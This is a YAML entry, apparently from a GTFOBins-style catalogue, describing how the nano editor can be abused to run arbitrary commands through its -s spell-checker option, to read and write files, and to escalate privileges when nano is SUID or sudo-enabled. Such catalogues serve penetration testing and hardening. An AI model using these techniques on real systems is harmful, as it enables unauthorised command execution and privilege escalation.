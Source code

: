 ```yaml
---
functions:
  execute-non-interactive:
    - description: After running this exit the editor to see the command output.
      code: |
        COMMAND=id
        TF=$(mktemp)
        echo "$COMMAND" > $TF
        chmod +x $TF
        nano -s $TF /etc/hosts
        ^T
  file-write:
    - code: |
        nano file_to_write
        ^O
  file-read:
    - code: nano file_to_read
  suid-enabled:
    - description: After running this exit the editor to see the command output.
      code: |
        COMMAND=id
        TF=$(mktemp)
        echo $'#!/bin/sh -p\n'"$COMMAND" > $TF
        chmod +x $TF
        ./nano -s $TF /etc/hosts
        ^T
  sudo-enabled:
    - description: After running this exit the editor to see the command output.
      code: |
        COMMAND=id
        TF=$(mktemp)
        echo "$COMMAND" > $TF
        chmod +x $TF
        sudo nano -s $TF /etc/hosts
        ^T
---
```

